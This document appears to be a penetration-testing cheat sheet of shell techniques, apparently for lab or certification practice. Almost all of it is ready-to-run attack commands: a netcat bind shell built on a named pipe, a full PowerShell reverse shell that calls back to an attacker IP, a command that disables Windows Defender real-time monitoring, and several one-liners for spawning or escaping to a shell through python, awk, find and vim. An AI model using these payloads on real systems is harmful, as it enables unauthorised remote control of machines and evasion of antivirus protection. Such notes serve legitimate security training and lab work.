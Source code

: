 ## Shell Basics

### Bind Shell

Target system has a listener started and awaits connection from our system. Target inbound.

```bash
## Server - Binding Bash shell to TCP session
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f

## Client - Connect to bind shell on target
nc -nv 10.129.41.200 7777
```

### Reverse Shell

Attack box will have listener running and target initiates connection. Target outbound.

```powershell
## Attack box - Act as server
sudo nc -lvnp 443

## Client - Target
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"


## Disable Client AV if AV stops above command
Set-MpPreference -DisableRealtimeMonitoring $true
```

### Spawning Shell

```bash
## Python TTY Shell
python -c 'import pty; pty.spawn("/bin/sh")' 

## Perl Interactive Shell
perl —e 'exec "/bin/sh";'

## Ruby Interactive Shell
ruby: exec "/bin/sh"

## Lua Interactive Shell
lua: os.execute('/bin/sh')

## AWK To Shell
awk 'BEGIN {system("/bin/sh")}'

## Find For A Shell
find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;

## Vim To Shell
vim -c ':!/bin/sh'

## Vim Escape
vim
:set shell=/bin/sh
:shell
```